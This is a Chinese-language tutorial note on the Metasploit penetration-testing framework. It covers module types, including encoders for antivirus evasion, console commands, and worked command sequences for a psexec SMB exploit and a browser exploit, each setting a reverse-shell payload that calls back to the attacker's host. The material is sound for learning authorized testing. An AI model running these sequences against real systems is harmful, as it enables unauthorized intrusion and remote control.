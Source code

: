 # Metasploit简介

目前最流行、最强大、最具扩展性的渗透测试平台软件



msgdb

## MSF架构

/usr/share/metasploit-framework/modules/

## 技术功能模块

1. Exploits:利用系统漏洞进行攻击的动作，此模块对应每一个具体漏洞的攻击方法（主动、被动）

2. Payload:成功exploit之后，真正在目标系统执行的代码或指令

   三种payloads：/usr/share/metasploint-framework/modules/payloads/

    * singles：all-in-one
    * stager:目标计算机内存有限时，先传输一个较小的payload用于建立连接
    * stagers：利用stager建立的连接下载的后续payload
    > Shellcode是payload的一种，由于其建立正向/方向shell而得名

3. Auxiliary：执行信息收集、枚举、指纹深探、扫描等功能的辅助模块（没有payload的exploit模块）
4. Encoders：对payload进行加密，躲避AV检查的模块
5. Nops：提高payload稳定性及维护大小

## MSF基本使用和控制台命令

使用前升级：msfupdate

msfconsole

banner、Color、connect

类似于nc

show

search

use

* show 
* info

db_status/dv_rebuild_cache

db_connect

db_nmap

​	hosts

netstat -pantu | grep 5432

set / unset / setg / save

run / exploit

```bash
set RHOST 192.168.1.128
set LPORT 4444
show targets
set target 34
show payloads
use windows/shell/bind_tcp
show options
exploit


```



jobs
sessions

load openvas

loadpath

route

exploit -jz

irb

resource r.rc

msfconsole -r r.rc

## Exploit模块

Active exploit（攻击者通过被攻击者暴露的端口进行攻击）

* use exploit/windows/smb/psexec	//
* set RHOST 192.168.1.100     //目标端口
* set PAYLOAD windows/shell/reverse_tcp    //shell反弹payload
* set LHOST 192.169.1.1    // shell反弹目的ip
* set LPORT 4444
* set SMBUSER user1    //目标ji'sh
* set SMBPASS pass1
* exploit（前台执行） 或 exploit -j (后台执行)
> 如果是后台执行，通过以下命令进入shell
>
> * sessions -l
> * session -i 1

Passive Exploits(利用客户端漏洞，客户端连接服务端下载payload)

* use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
* set SRVHOST 192.168.1.113 
* set URIPATH /
* set PAYLOAD windows/shell/reverse_tcp
* set LHOST 192.168.1.1
* set LPORT 4444
* exploit







